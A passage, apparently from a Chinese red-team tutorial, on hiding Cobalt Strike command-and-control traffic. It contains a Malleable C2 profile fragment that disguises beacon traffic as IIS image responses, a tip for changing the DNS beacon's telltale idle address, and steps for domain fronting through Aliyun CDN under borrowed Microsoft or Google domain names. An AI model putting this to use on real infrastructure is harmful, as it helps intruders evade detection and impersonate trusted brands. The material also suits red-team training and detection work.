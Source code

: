 ```
            netbiosu;
            append ".asp";
            uri-append;
        }

        output {
            base64;
            print;
        }
    }

    server {

        header "Content-Type" "img/jpg";
        header "Server" "Microsoft-IIS/6.0";
        header "X-Powered-By" "ASP.NET";

        output {
            base64;
            print;
        }
    }
}
```

**3. 修改 Cobalt Strike dns_idle**

0.0.0.0 是 Cobalt Strike DNS Beacon 特征可设置 Malleable C2 进行修改 输入 set dns_idle "8.8.8.8";

### **域前置**  

#### **原理**

> 域前置（英语：_Domain fronting_），是一种隐藏连接真实端点来规避互联网审查的技术。在应用层上运作时，域前置使用户能通过 HTTP 连接到白名单域名（如 *.google.cn），无直接与 C2 服务器的通信。介绍：被攻击机器 -> `www.microport.com`(走 aliyun cdn 的域名，根据设定的 host 头: dns.google.cn 找到对应的 vps_ip) -> cdn 流量转发到 vps_ip(c2 真实地址)
> 
> ![](https://mmbiz.qpic.cn/mmbiz_jpg/GzdTGmQpRic3ML7MItmwV2WFvKjp9Plk6lhFbJsTwuYMVYsEPo4jibrpKjCrGUJaoCEPJh17ALHcXPia1T9YnPrDw/640?wx_fmt=jpeg)

#### **实战配置 CDN**

购买云服务器，开通 CDN 服务。加速域名：随便填个高信誉的域名实现域名伪造，例如：oss.microsoft.com，dns.google.com 之类的。

登陆 aliyun。

![](https://mmbiz.qpic.cn/mmbiz_jpg/GzdTGmQpRic3ML7MItmwV2WFvKjp9Plk6Xiaibghe8GTz8Ia5PZtT58Rp78C1Dd1zWg0BxsFBx1VJh6hn5zp1YuXg/640?wx_fmt=jpeg)

在 IP 位置填写 cs_teamserver 的 IP 地址。

![](https://mmbiz.qpic.cn/mmbiz_jpg/GzdTGmQpRic3ML7MItmwV2WFvKjp9Plk6FkchMHo3o8d1icZzWPupX0iaztSdI9My5wboqcDMgjbiaeCRDmZ1kj77Q/640?wx_fmt=jpeg)

配置 c2 的 Stager 的域名为走 cdn 的地址，如：`www.microport.com.cn`
